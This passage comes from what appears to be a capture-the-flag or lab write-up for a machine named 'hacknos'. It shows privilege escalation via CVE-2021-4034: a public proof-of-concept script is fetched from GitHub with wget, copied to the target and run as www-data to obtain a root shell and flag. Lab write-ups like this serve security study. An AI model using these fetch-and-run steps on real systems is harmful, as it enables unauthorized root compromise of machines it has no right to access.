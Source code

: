 ![evidence](./static/08-linpeas.png)

## Privilege escalation

When I google `CVE-2021-4034`, then I find a [GitHub repository](https://github.com/hackingyseguridad/CVE-2021-4034), and it contains a PoC. When I download it:
```shell
$ wget "https://raw.githubusercontent.com/hackingyseguridad/
> CVE-2021-4034/main/CVE-2021-4034.sh"
```
And I follow the same steps that I did, when I sent the `linpeas.sh` file to the destination machine, and I run the `CVE-2021-4034.sh` file:
```shell
$ www-data@hacknos:/tmp$ ./CVE-2021-4034.sh
```
Then it works, and I get the root shell, and I get the root flag:

![evidence](./static/09-censored-rootflag.png)
